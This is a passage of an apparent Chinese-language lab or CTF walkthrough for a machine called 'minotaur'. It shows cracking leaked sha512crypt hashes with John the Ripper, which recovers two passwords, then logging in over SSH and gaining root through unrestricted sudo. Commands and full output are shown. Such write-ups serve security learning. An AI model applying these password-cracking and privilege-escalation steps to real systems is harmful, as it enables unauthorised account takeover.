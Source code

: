         
3. 尝试爆破
    - 将泄露密码的几个账户保存为`users.txt`
        
        ```python
        john users.txt 
        //
        Using default input encoding: UTF-8
        Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
        Cost 1 (iteration count) is 5000 for all loaded hashes
        Will run 8 OpenMP threads
        Proceeding with single, rules:Single
        Press 'q' or Ctrl-C to abort, almost any other key for status
        Almost done: Processing the remaining buffered candidate passwords, if any.
        Proceeding with wordlist:/usr/share/john/password.lst
        Password1        (heffer)     
        obiwan6          (minotaur)     
        ```
        
        把两个用户的密码爆破出来了
        
    - 尝试用ssh登录
        
        ```python
        ssh minotaur@192.168.75.172
        minotaur@192.168.75.172's password:
        Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.16.0-30-generic i686)
        
         * Documentation:  https://help.ubuntu.com/
        
          System information as of Thu Oct 31 02:36:26 AEDT 2024
        
          System load: 0.72              Memory usage: 9%   Processes:       162
          Usage of /:  7.3% of 18.81GB   Swap usage:   0%   Users logged in: 0
        
          Graph this data and manage this system at:
            https://landscape.canonical.com/
        
        Last login: Wed May 27 16:55:30 2015
        minotaur@minotaur:~$ sudo -l
        Matching Defaults entries for minotaur on minotaur:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
        
        User minotaur may run the following commands on minotaur:
            (root) NOPASSWD: /root/bullquote.sh
            (ALL : ALL) ALL
        minotaur@minotaur:~$
        ```
        
        意外发现`minotaur`的权限和`root`相等
        
        ```python
        minotaur@minotaur:~$ sudo -i
        [sudo] password for minotaur:
        root@minotaur:~#
        ```
        